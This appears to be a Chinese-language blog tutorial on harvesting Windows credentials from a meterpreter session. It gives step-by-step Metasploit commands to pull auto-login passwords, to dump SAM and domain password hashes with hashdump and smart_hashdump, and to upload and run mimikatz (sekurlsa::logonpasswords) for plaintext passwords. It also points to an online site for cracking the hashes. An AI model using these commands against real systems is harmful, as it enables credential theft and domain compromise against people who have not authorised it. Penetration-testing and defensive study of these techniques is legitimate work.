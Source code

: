 ```yaml
---
title: 使用MSF抓取用户密码
tags: 
  - 安全
  - Linux
abbrlink: b034a3f3
date: 2024-10-23 21:00:00
---
```


## 抓取自动登录的密码
很多用户习惯将计算机设置自动登录
可以使用
~~~bash
run windows/gather/credentials/windows_autologin
~~~
抓取自动登录的用户名和密码

## 导出密码哈希
### run hashdump 命令
> `hashdump` 模块可以从 `SAM数据库` 中导出本地用户账号，该命令的使用需要系统权限

- 在 `meterpreter_shell` 中执行 `run hashdump` 命令
~~~bash
run hashdump
~~~

- 用户哈希数据的输出格式为
~~~bash
用户名:SID:LM哈希:NTLM哈希:::
~~~

- 使用在线网站解密hash密码
[CMD5](https://www.cmd5.com/default.aspx)

- `run windows/gather/smart_hashdump` 命令
> 使用需要系统权限。该功能更强大
> 如果当前用户是域管理员用户
> 则可以导出域内所有用户的 hash

## 使用 mimikatx 抓取密码
### 上传 mimikatz 程序
我们可以通过上传 `mimikatz` 程序
然后执行 `mimikatz` 程序来`获取明文密码`

- 前提
执行 `mimikatz` 必须 `System` 权限
并且在执行时，要根据当前的系统位数进行选择

- 使用方法
1. 在 `meterpreter_shell` 的命令行里面查看当前会话的权限
~~~bash
getuid
~~~

2. 查看系统位数
~~~bash
sysinfo
~~~

3. 选择相应位数的 `mimikatz` 上传至目标服务器
~~~bash
upload file  #upload命令后面需要跟上要上传文件的路径；这个命令是从当前机器上传到目标机器；
~~~

4. 进入 `mimikatz` 的交互界面
~~~bash
execute -i -f mimikatz.exe
~~~

5. 在 `mimikatz` 交互界面，使用以下两条命令抓取密码
~~~bash
privilege::debug
sekurlsa::logonpasswords
~~~
